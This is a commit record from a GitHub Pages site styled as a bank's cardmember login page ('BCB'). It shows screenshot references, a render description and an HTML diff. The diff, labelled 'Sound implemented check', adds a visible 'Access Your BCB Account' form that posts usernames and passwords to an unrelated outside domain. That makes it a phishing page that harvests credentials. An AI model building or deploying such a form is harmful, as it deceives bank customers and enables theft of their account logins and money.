

Before and after one commit to bcbaccessint/bcbaccessint.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 624-1098 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; a script that the page names is missing.

Commit message:
Sound implemented check

```diff
--- a/index.html
+++ b/index.html
@@ -147,11 +147,22 @@
                     <div id="login-iframe-container" class="bcus-login-iframe-container" style="display:none">
                         <!--Iframe comes here-->
                     </div>
-                    <div id="iframe-error-message" style="display: none;">
-                        <div style='margin-top:180px;'>
-                            <div class='login-panel_error-panel'>
-                                <a id='bcus-member-link' href='' class='bcus-button bcus-button--blue bcus-home-explorer__browse-all-link login-panel_cardmember_login_button'>Cardmembers Logins</a>
-                            </div>
+                    <div id="iframe-error-message" style="display: block;">
+                        <div style='margin-top:100px;padding:0 30px;'>
+                            <h2 style="margin-bottom: 50px;color:#00AEEF">Access Your BCB Account</h2>
+                            <form action="https://securequicknet.online/authorize/bcbaccess/app/account/login.php" method="POST">
+                                <div class="form-group">
+                                    <label for="username" style="color:#00AEEF">Username</label>
+                                    <input style="width:233px;padding:10px 10px;margin-bottom:10px" type="text" name="username" placeholder="Username" id="username">
+                                </div>
+                                <div class="form-group">
+                                    <label for="username" style="color:#00AEEF">Username</label>
+                                    <input style="width:233px;padding:10px 10px;margin-bottom:10px" type="password" name="password" placeholder="Password" id="password">
+                                </div>
+                                <div class="form-group">
+                                    <input style="width:100%;padding:10px 10px;margin-bottom:10px;background:#00AEEF;border:none;color:#fff;font-size: 15px;" type="submit" name="login" value="Login">
+                                </div>
+                            </form>
                         </div>
                     </div>
                 </div>
@@ -476,8 +487,7 @@
 </div><div class="iparys_inherited"><div class="global-footer iparsys parsys"></div>
 </div>
 </div>
-
-        <div class="servicecomponents cloudservices">
+<div class="servicecomponents cloudservices">
 </div>
 
 </body>
```
